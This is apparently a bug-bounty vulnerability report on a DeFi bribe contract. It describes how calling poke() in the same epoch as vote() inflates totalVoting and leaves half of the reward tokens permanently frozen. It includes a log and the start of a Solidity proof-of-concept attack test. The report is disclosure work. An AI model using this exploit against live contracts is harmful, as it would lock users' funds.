 So the totalVoting will be inflated more and the left token will be more. In this POC, the Bal balance left in the Bribe contract 50000000000000000000002 that is 1/2 of the reward amount. 

Log: 
```
  Bal balance of Bribe contract: 100000000000000000000000
  Call voter poke()
  totalVoting after poke(): % 3998814434263944902
  totalVoting after poke(): % 5998221651395917353
  totalVoting after poke(): % 7997628868527889804
  Fast forward 1 epoch
  earnedBribes1 16666666666666666666666
  Bal balance of attacker: 16666666666666666666666
  earnedBribes2 16666666666666666666666
  earnedBribes3 16666666666666666666666
  Bal balance of Alice: 16666666666666666666666
  Bal balance of Bob: 16666666666666666666666
  Bal balance of Bribe contract: 50000000000000000000002
```

# Impacts
# About the severity assessment

The impact of this vulnerability is: This bug will result in "Permanent freezing of unclaimed yield" or 'Permanent freezing of unclaimed royalties" because the reward token will be left in the Bribe contract and cannot be taken out, so it is permanently frozen in this contract. 

This bug can happen with normal users when the call the poke() in the same EPOCH as vote(). 

Or this bug can be exploited by attacker to cause this impact. 

This bug severity: High
Category: Permanent freezing of unclaimed yield or Permanent freezing of unclaimed royalties 

Capital for the attack: Gas to execute the transactions. Some amount of BPT to invest to lock to get the VeAlcx tokens. 

Easy to exploit and easy to be automated. 

## Proof of concept
#  Proof of concept

I created 3 test cases to demonstrate the 3 scenarios for attack and a normal scenario to clearly see the attack. 

## testBribeClaimingPoke_Hacked 
I demonstrated this attack in the test case: 

```solidity
    function testBribeClaimingPoke_Hacked() public {

        
        address attacker = address(this) ; 
        uint256 tokenId1 = createVeAlcx(address(this), TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        tokenId3 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 

        address[] memory pools = new address[](1);
```